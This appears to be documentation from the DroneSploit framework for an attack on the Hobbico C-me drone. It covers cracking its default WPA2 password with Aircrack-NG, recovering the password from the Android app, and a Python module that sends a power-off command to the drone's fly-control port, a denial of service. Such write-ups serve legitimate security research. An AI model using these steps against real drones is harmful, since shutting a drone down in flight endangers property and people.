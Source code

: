 ## Security issues

This attack results from 1 security issue :

- Default WiFi password.

## Telnet password recovery

A WPA2-PSK classical guessing attack was achieved using the Aircrack-NG suite, leading to the discovery of the WiFi password.

Moreover, reversing the Android application shows the password. Investigating the sources further leads to the discovery of a list of possible commands, to be sent to a fly control application running on the drone. This way, multiple actions can be commanded, like powering off, therefore causing a DoS.

## DroneSploit module

A generic proxy class was made to implement command sending for drones that use a fly control application (through a TCP or UDP socket), `DroneModule` (see `dronesploit/lib/drones/__init__.py`). The specificity of Hobbico's drones is implemented into `HobbicoModule`, providing a format for the command to be sent.

```python
class HobbicoModule(DroneModule):
    """ Module proxy class for defining multiple common utility methods for
         Hobbico drones.
    
    Author:  Yannick Pasquazzo
    Email:   y.pasquazzo@hotmail.com
    Version: 1.0
    """
    payload_format = '{"CMD" : %d, "PARAM" : %s}'
    
    [...]
    
    def _power_off(self):
        self.logger.info("Shutting down the target...")
        self._feedback(self.send_command(32, 0), "Target not powered off")
```

A template proxy class, `CmeModule` is implemented to hold the default configuration options.

```python
class CmeModule(HobbicoModule):
    """ Module proxy class holding the default parameter of a C-me. """
    config = Config({
        Option(
            'IP',
            "IP address of drone's AP",
            True,
        ): "192.168.100.1",
        Option(
            'FLYCTL_PORT',
            "Fly controller port",
            True,
        ): 4646,
        Option(
            'TARGET',
            "Target's SSID",
            True,
            choices=lambda o: [e for e in o.state['TARGETS'].keys() \
                               if drone_filter(e, o.module.drone) and \
                               e in o.console.root.connected_targets],
        ): None,
    })
    drone = "Hobbico C-me"
    path = "command/hobbico/cme"
```

The module is finally :

```python
class PowerOff(CmeModule):
    """ Power off the target C-me. """
    def run(self):
        self._power_off()
```
